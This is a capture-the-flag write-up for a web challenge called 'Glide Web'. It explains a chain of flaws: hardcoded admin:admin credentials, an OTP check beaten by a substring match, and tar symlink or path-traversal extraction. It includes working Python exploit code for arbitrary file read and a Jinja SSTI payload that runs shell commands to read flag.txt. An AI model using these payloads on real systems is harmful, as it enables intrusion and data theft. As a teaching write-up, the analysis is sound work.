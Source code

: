 # Glide Web - Flagyard CTF
**Difficulty: Medium**

## Challenge Overview
This challenge presents a web application with a file upload functionality that can be exploited to achieve arbitrary file read on the server through a chain of vulnerabilities including authentication bypass, OTP bypass, and a path traversal through symlink exploitation.

## Technical Details

### 1. Initial Analysis
The application consists of several key components:
- A login system with OTP verification
- A file upload functionality that accepts tar archives
- An extraction mechanism that processes uploaded archives
- A file serving endpoint for accessing uploaded files

### 2. Vulnerability Chain

#### 2.1 Authentication Bypass
The first layer of security uses hardcoded credentials:
```python
if username == 'admin' and password == 'admin':
    session['username'] = username
    return redirect(url_for('otp'))
```
This is trivially bypassed using `admin:admin` credentials.

#### 2.2 OTP Bypass
The OTP implementation contains a critical logic flaw:
```python
if request.method == 'POST':
    otp,_otp = generate_otp(),request.form['otp']
    if otp in _otp:
        session['otp_validated'] = True
```

The vulnerability lies in the comparison `otp in _otp`. Instead of checking for an exact match, it checks if the generated OTP is a substring of the provided OTP. This allows us to bypass by sending all possible 4-digit combinations (0000-9999) as a single string.

#### 2.3 File Upload and Path Traversal
The core vulnerability exists in the file extraction process:
```python
@app.route('/extract')
def extract():
    file_path = session['file_path']
    output_dir = 'uploads'
    if not tarfile.is_tarfile(file_path):
        os.remove(file_path)
        return render_template('extract.html', message='The uploaded file is not a valid tar archive')

    with tarfile.open(file_path, 'r') as tar_ref:
        tar_ref.extractall(output_dir)
```

Key vulnerabilities:
1. No symlink validation in `tar_ref.extractall()`
2. Extracted files are accessible via `/uploads/<filename>`
3. `send_from_directory` follows symlinks when serving files

## Exploitation

### Step 1: Authentication
```python
def bypass_otp():
    S.post(url+"/login", data={"username": "admin", "password": "admin"})
    S.get(url+"/otp")
    S.post(url+"/otp", data={"otp": get_otp()})
```

### Step 2: OTP Bypass
Generate all possible 4-digit combinations:
```python
def get_otp():
    wholedigits = ""
    wordlist = "./4-digit.txt"
    with open(wordlist) as f:
        digits = f.readlines()
    for d in digits:
        wholedigits += d.strip()
    return wholedigits
```

### Step 3: Arbitrary File Read
The exploit creates a symbolic link to the target file and packages it in a tar archive:
```python
def create_symlink_and_tar(filename, link_name="link.file", tar_name="random.tar"):
    os.symlink(filename, link_name)
    with tarfile.open(tar_name, "w") as tar:
        tar.add(link_name)
```

When the tar file is extracted on the server, the symlink is preserved, allowing us to read any file by accessing `/uploads/link.file`.

## Full Exploit
```python
def main():
    bypass_otp()
    while True:
        user_input = input("read file: ")
        link_name = "link.file"+str(random.randint(0,100))
        tar_name = "random"+str(random.randint(0,100))+".tar"
        full_path,link_name = create_symlink_and_tar(user_input, link_name, tar_name)
        S.post(url+"/", files={"file": open(full_path, "rb")})
        print(S.get(f"{url}/uploads/{link_name}").text)
```
## Another way Through SSTI
There was also another way to get flag which was through SSTI injection in a html file set it in the template dir
```python
# Create a directory for the malicious payload
os.makedirs("malicious_payload", exist_ok=True)
# Define the malicious HTML file and its content
malicious_file = "malicious_payload/extract.html"
html_content = """
<!DOCTYPE html>
<html>
<head>
    <title>Malicious Page</title>
</head>
<body>
    <h1>You've been exploited!</h1>
    <p>{{7*7}}</p>
    <textarea type="text" rows="40" cols="50" id="page" name="page" >{{config.__class__.__init__.__globals__['os'].popen('cat $(find / -name flag.txt 2>/dev/null)').read()}}</textarea>
</body>
</html>
"""
with open(malicious_file, "w") as f:
    f.write(html_content)
# Define the target path for traversal (e.g., ../../extract.html)
# Adjust the number of "../" to match the directory depth on the server.
traversal_path = "../templates/extract.html"
with tarfile.open("file.tar.gz", "w:gz") as tar:
    tar.add(malicious_file, arcname=traversal_path)
print("[+] Malicious tar.gz file 'file.tar.gz' created successfully with extract.html content.")
```
## Conclusion
This challenge demonstrates how multiple seemingly minor vulnerabilities can be chained together to achieve arbitrary file read on a system. It emphasizes the importance of proper input validation, secure file handling, and robust authentication mechanisms in web applications.

The exploitation chain:
1. login with admin:admin
2. Bypass OTP by sending all possible combinations in one line
3. Create a symlink to target file
4. Package symlink in tar
5. Upload and extract to read arbitrary files


